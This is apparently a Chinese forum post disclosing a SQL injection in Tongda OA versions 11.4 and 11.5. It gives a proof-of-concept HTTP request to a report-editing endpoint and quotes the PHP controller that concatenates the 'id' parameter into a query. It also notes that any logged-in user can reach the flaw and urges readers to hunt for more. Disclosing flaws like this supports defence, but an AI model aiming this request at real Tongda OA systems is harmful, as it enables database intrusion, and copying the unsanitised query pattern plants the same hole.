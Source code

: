 # 通达OA11.5SQL注入漏洞


当时测试的版本是11.4。后来发现11.5也没有修复。其他版本未测试。

通达OA低版本存在多处SQL注入漏洞。很多地方都存在问题。我只发一个，剩下的坛友自己挖掘吧，也许有意想不到的结果。~

**POC**


```bash
GET /general/appbuilder/web/report/repdetail/edit?id=11&link_type=false&slot={} HTTP/1.1
Host: 192.168.1.11
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=42mi9cekm88g7ftbgllua7pl01; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=ef5494c8
Upgrade-Insecure-Requests: 1
```

需要一个可以登录系统的账号，普通权限即可。

general\appbuilder\modules\report\controllers\RepdetailController.php  函数 actionEdit()


```php
public function actionEdit()
{
        Yii::$app->response->format = yii\web\Response::FORMAT_JSON;
        $_GET = modules\appdesign\models\AppUtils::toGBK($_GET);
        $id = $_GET["id"];
        $slot = $_GET["slot"];
        $link_type = $_GET["link_type"];
        $RepDetail = modules\report\models\RepDetail::find()->where("id=" . $id)->Asarray()->One();
```

注入参数：id

测试可以：

![企业微信截图_232987fb-7df5-459a-afc5-7274c50af0ca](media/202008/%E4%BC%81%E4%B8%9A%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_232987fb-7df5-459a-afc5-7274c50af0ca.png)
